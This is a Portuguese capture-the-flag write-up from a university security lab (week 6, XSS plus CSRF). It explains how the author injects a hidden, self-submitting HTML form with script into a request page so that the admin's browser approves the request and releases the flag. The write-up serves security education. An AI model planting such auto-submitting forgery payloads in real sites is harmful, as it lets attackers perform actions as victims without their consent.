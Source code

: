 ### CTF Semana 6 (XSS+CSRF)

Ao abrir a página, deparamonos com o seguinte form no qual podemos selecionar a opção "Give the flag" de modo a fazer um pedido ao admin para obter a flag.

![ctfxss](../images/ctfxss.png)


Fazendo um pedido inicial, conseguimos obter acesso á pagina do admin.

![xssadmin](../images/xssadmin.png)

Ao analisar o código fonte da página, verificamos que a porta da página muda de 5004 para 5005 e o form do request apresenta a seguinte estrutura:

```html
<form method="POST" action="/request/<request_id>/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled>
        
    </div>
</form>
```
O valor **request_id** é o valor dado na página inicial. Tendo em conta a informação que obtemos, podemos construir um novo form para aceitar os pedidos:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```

Tendo este novo form criado, basta só na página inicial injetar este código no form, sendo redirecionado para a página de espera de aceitação do pedido. Podemos verificar que inicialmente ainda não conseguimos obter o valor da flag devido á existência de um script na página, fazer com que esta continue a fazer refresh de 5 em 5 segundos. Desativando o javascript e fazendo reload manual obtemos a flag.
